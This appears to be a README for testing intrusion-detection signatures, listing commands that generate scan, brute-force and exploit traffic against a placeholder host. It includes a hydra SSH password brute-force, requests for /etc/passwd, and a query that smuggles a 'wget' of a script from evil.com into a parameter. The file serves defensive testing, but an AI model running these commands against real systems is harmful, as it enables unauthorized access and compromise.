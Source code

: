 # Scan Signature demo
```bash
sudo apt install nmap
```
```bash
nmap [subnet]
```
```bash
nmap -p 22,80,443 [ip address]
```
```bash
sudo nmap -sS [ip address]
```
```bash
sudo nmap -sF [ip address]
```

# Brute force Signature demo

```bash
sudo apt install hydra
```
```bash
hydra -l [username] -P /path/to/passwords.txt ssh://[ip address]
```
## Exploit Signature demo 

```bash
curl -A "sqlmap/1.5" http://[ip address]:[port]/test
```
```bash
curl http://[ip address]:[port]/etc/passwd
```
```bash
curl http://[ip address]:[port]/etc/passwd
```
```bash
curl http://[ip address]:[port]/$(python3 -c "print('A'*200)")
```
```bash
curl "http://[ip address]:[port]/?input=hello%3Bwget%20http://evil.com/malware.sh"
```

## Server side prepare
```bash
python3 -m http.server [port]
```